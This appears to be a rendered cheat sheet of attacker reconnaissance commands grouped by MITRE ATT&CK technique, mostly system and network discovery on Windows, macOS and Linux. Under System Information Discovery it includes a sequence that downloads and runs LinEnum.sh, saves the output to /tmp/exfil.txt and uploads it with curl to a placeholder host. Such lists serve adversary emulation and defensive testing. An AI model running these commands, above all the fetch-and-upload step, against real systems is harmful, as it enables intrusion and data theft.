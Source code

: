 Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
* which google-chrome
* which go
* python3 --version;python2 --version;python --version
* python3 --version&python2 --version&python --version
* (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Internet Explorer').Version
##T1153: Source
##T1608: Stage Capabilities
##T1528: Steal Application Access Token
##T1539: Steal Web Session Cookie
##T1558: Steal or Forge Kerberos Tickets
##T1553: Subvert Trust Controls
##T1195: Supply Chain Compromise
##T1082: System Information Discovery
* cmd.exe /c ver
* ver
* get_env.rb
* cmd.exe /c set
* set
* cmd.exe /c net config workstation
cmd.exe /c net config server
* net config workstation
net config server
* systeminfo [/s COMPNAME] [/u DOMAIN\user] [/p password]
* systemprofiler tool if no access yet (victim browses to website)
or
cmd.exe /c systeminfo (if you already have a beacon)
* sysinfo, run winenum, get_env.rb
* system_profiler
ls -al /Applications
* systeminfo
reg query HKLM\SYSTEM\CurrentControlSet\Services\Disk\Enum
* env
* REG QUERY HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography /v MachineGuid
* hostname
* uname -a >> /tmp/T1082.txt
if [ -f /etc/lsb-release ]; then cat /etc/lsb-release >> /tmp/T1082.txt; fi;
if [ -f /etc/redhat-release ]; then cat /etc/redhat-release >> /tmp/T1082.txt; fi;      
if [ -f /etc/issue ]; then cat /etc/issue >> /tmp/T1082.txt; fi;
uptime >> /tmp/T1082.txt
cat /tmp/T1082.txt 2>/dev/null
* set
* $PSVersionTable
* find / -type d -user #{host.user.name} \( -perm -g+w -or -perm -o+w \) 2>/dev/null -exec ls -adl {} \;
* wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh;
chmod +x LinEnum.sh;
./LinEnum.sh > /tmp/exfil.txt;
curl -F 'data=@/tmp/exfil.txt' $RANDOMURL$/file/upload ;
cat /tmp/exfil.txt;
* [environment]::OSVersion.Version
##T1614: System Location Discovery
##T1016: System Network Configuration Discovery
* cmd.exe /c ipconfig
* ipconfig /all
* arp -a
route print
* cmd.exe /c arp -a
* route
* cmd.exe /c c:\windows\sysnative\nbstat.exe -a {IP | COMP_NAME}
* nbtstat -a {IP | COMP_NAME }
* $ports = Get-content #{port_file}
$file = "#{output_file}"